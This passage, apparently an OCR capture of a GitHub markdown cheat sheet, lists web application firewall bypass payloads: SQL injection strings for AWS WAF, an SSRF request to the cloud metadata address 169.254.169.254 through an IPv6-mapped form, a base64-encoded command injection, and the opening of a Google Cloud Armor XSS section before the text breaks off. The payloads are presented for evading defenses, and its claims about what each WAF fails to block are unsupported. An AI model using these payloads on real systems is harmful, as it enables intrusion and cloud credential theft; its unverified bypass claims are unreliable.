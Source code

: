 - AWS WAF **fails to analyze template literals (`fetch\`...\`)**.  

### **🔥 AWS SQL Injection Bypass**  

>AWS WAF blocks:  

```sql
' OR '1'='1' --
```  

>**Bypass using `LIKE` Wildcards:**  

```sql
' OR username LIKE 'a%'
```  

- AWS WAF does **not always block LIKE-based injections**.  

### **🔥 AWS SSRF Bypass**  

>AWS blocks internal IPs (`169.254.169.254`).  

>**Bypass using IPv6 Encodings:**  

```bash
curl http://[::ffff:169.254.169.254]
```  

- AWS WAF **fails to block IPv6-mapped addresses**.  

### **🔥 AWS Command Injection Bypass**  

>AWS blocks:  

```bash
; ls /
```  

>**Bypass using String Concatenation:**  

```bash
$(echo 'bHMgLwo=' | base64 -d)
```  

- AWS WAF **does not inspect base64-decoded commands**.  

----  

## **3️⃣ Google Cloud Armor WAF Bypass**  

>Google Cloud WAF is **strict but fails at handling recursive encoding**.  

### **🔥 Google XSS Bypass**  

>Google blocks:  

```html
<script>alert(1)</script>
```  
